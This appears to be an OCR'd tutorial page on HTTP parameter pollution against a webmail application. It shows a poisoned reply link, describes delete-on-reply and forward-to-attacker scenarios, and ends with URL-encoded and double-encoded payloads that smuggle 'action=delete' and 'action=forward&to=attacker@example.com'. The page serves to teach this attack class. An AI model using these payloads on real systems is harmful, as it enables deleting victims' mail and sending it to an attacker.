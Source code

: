 ### **Resulting Malicious Link**

Victim’s **reply** link now looks like:

```html
<a href="doaction?folder=inbox&order=down&size=20&start=1&action=delete&message=12&action=reply&rnd=1935612936174">
    reply
</a>
```

---

### **How the Attack Works**

* Browser clicks `reply` → sends `action=delete` **and** `action=reply`.
* If app takes **first value wins** approach, `action=delete` executes instead of reply.
* CSRF tokens (`rnd`) don’t help because they’re part of the legit flow — the app built the link itself.

---

## **Real-World Exploitation Scenarios**

1. **Delete on Reply**

   * Crafted URL injects `action=delete` into `reply` link.
2. **Forward on View**

   * Inject `action=forward&to=attacker@example.com` into message view link.
3. **Multiple Encodings**

   * `%2526` (double encoding) → server decodes twice → smuggle deeper injections.
4. **Chained Actions**

   * Inject `action=deleteAll` in inbox and `action=forward` in return-to-inbox link, so every navigation does damage.

---

### **Payload Examples**

1. Basic:

```
start=1%26action=delete
```

2. Multi-parameter injection:

```
start=1%26action=forward%26to=attacker@example.com
```

3. Double-encoded bypass:

```
start=1%2526action=delete
```
